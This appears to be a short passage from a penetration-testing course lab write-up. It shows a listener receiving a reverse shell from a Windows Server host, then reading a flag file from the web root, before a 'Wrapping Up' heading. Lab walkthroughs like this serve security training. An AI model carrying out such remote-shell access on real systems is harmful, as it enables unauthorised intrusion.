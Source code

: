 ```
connect to [192.168.45.195] from (UNKNOWN) [192.168.244.50] 64730
Microsoft Windows [Version 10.0.20348.740]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>

f. Flag located. 
C:\inetpub\wwwroot>type flag.txt
type flag.txt
OS{4ccd99f7a85e3323b6fc419295522a6b}


```


#### 10.4. Wrapping Up